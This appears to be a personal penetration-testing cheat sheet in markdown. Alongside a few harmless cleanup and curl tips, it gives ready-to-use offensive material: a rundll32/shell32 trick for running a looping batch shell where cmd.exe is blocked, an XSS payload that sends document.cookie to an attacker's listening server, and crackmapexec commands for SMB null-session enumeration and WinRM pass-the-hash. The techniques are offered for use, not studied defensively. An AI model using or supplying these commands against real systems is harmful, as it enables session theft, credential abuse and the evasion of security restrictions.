 ## Cleaning up

- `sudo apt autoremove && sudo apt autoclean`
- `sudo du -xh --max-depth=1 /var`
- `sudo du -xh --max-depth=1 /var/log`

## blocked cmd bypass

- create a batch file and run it with: `rundll32.exe shell32.dll,ShellExec_RunDLL c:\users\<username>\desktop\command.bat`
- output for the command will be written in output.txt
- can tweak it to your liking, including cmd= and enter
- great resource **[here](https://lolbas-project.github.io/lolbas/Libraries/Shell32/)**

```
@echo off
:Loop
echo %cd%^>
set /p cmd=Type your command here
%cmd% >> c:\users\<username>\desktop\output.txt
Goto Loop

```

- another stealthier example

```
@echo off

set cmd=dir
%cmd% >> c:\users\<username>\desktop\output.txt

```

## cookie stealing

- `<script>new Image().src="http://<python3 http server running in kali IP>:<PORT>/cool.jpg?output="+document.cookie;</script>`

## crackmapexec

- `crackmapexec -t 20 smb --shares <target> -u '' -p '' -d <FQDN>`
- `crackmapexec winrm <target IP> -u users -H hashes`
- `crackmapexec smb -u '' -p '' -d <domain> ./smb-hosts.txt --pass-policy`

## curl

You can do some great things with ***curl***, it's worth going through it's man page, this is one of the great techniques I use quite often:

- `curl -s <domain or IP> | grep "<form"` to discover which HTTP methods are available. `s` is for *silent* mode.
- `curl -X DELETE <http://IP:PORT>` if you get a 200 OK that means that method is supported, you can try all the others as well like PUT, etc..
- generating QR code of a website: `curl qrenco.de/https://google.com`
